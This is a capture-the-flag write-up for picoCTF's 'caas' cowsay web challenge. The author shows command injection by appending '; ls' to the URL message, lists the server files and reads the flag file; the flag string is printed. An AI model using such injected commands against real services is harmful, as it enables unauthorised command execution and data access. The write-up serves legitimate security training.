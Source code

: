 # **caas   → 150 Pts.**

1. We land on the page saying 

**Make a request to the following URL to cowsay your message:**

```
https://caas.mars.picoctf.net/cowsay/{message}
```

2. For trying, We enter any random message to get an output and it does shows our message back to us.

[https://caas.mars.picoctf.net/cowsay/I_am_Ryx](https://caas.mars.picoctf.net/cowsay/I_am_Ryx)

```
 __________
< I_am_Ryx >
 ----------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

3. I used Wappalyzer to see what type of page we are in and what kind of services it’s using
4. Using it, we get to know that it uses node.js services (index.js is already given to us as a separate file for downloading)
5. So tried appending it in the end ; ls

[https://caas.mars.picoctf.net/cowsay/ryx; ls](https://caas.mars.picoctf.net/cowsay/ryx;%20ls)

```
 _____
< ryx >
 -----
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock
```

6. We have falg.txt here so we will simply cat it out. 

```
 _____
< ryx >
 -----
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
```

7. There we have it…our flag.

